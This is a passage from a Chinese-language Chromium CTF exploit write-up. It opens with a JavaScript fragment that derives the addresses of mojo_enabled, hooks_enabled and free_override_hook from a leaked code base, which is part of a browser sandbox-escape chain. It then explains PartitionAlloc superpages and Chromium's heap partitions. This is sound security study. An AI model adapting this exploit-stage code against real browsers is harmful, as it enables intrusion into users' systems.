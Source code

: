 ```
		var code_base = code_leak-0xaa246a8n;
		success_value("code base: ", code_base);

		var mojo_enabled = code_base+0xaa57325n;
		var hooks_enabled = code_base+0xa8f8848n;
		var free_override_hook = code_base+0xa8f8868n;
		success_value('mojo_enabled: ', mojo_enabled);
		success_value('hooks_enabled: ', hooks_enabled);
		success_value('free_override_hook: ', free_override_hook);
		var ret_func = code_leak-0xcd7598n;
		success_value('ret: ', ret_func);
```
剩下的内容就和sbx那个题目一样了，这里就不重复了。


### 用到的一些基础知识（未完还再续。。。）：

#### partitionalloc：

- 简单介绍一下partitionalloc，他是为了解决一些传统分配器（ptmalloc or jemalloc等）产生的问题而诞生的，当传统分配器为object分配内存时，分配器并不知道他是什么类型的object，也不允许你去选择存储的位置，这就导致了一个c++ object它既可以和string相邻，也可以和函数指针结构相邻。这就使得UAF的利用非常简单，因为他们都在一个heap。而partitionalloc将object存储在特定的bucket中，不同类型的object就不一定会分配到同一个heap，这样就加大了uaf的使用难度。

- partitionalloc的核心是superpage，它是一个2MB的block，并且以一个保护页开始，具体结构就以本题为例：

```
    0x21ea10800000     0x21ea10801000 ---p     1000 0  //Guard page    
    0x21ea10801000     0x21ea10802000 rw-p     1000 0  //Metadata page    
    0x21ea10802000     0x21ea10804000 ---p     2000 0  //Guard pages    
    0x21ea10804000     0x21ea1080c000 rw-p     8000 0  //Slot span    
    0x21ea1080c000     0x21ea10a00000 ---p   1f4000 0  //Guard pages
```
- Slot span是PartitionPage结构的连续范围。

1、chromium 有四个分区：
```
    // We have the following four partitions.
    //   - Node partition: A partition to allocate Nodes. We prepare a
    //     dedicated partition for Nodes because Nodes are likely to be
    //     a source of use-after-frees. Another reason is for performance:
    //     Since Nodes are guaranteed to be used only by the main
    //     thread, we can bypass acquiring a lock. Also we can improve memory
    //     locality by putting Nodes together.
    //   - Layout object partition: A partition to allocate LayoutObjects.
    //     we prepare a dedicated partition for the same reason as Nodes.
    //   - Buffer partition: A partition to allocate objects that have a strong
    //     risk where the length and/or the contents are exploited from user
    //     scripts. Vectors, HashTables, ArrayBufferContents and Strings are
    //     allocated in the buffer partition.
    //   - Fast malloc partition: A partition to allocate all other objects.
    static PartitionAllocatorGeneric m_fastMallocAllocator;
    static PartitionAllocatorGeneric m_bufferAllocator;
#if !ENABLE(OILPAN)
    static SizeSpecificPartitionAllocator<3328> m_nodeAllocator;
#endif
    static SizeSpecificPartitionAllocator<1024> m_layoutAllocator;
```
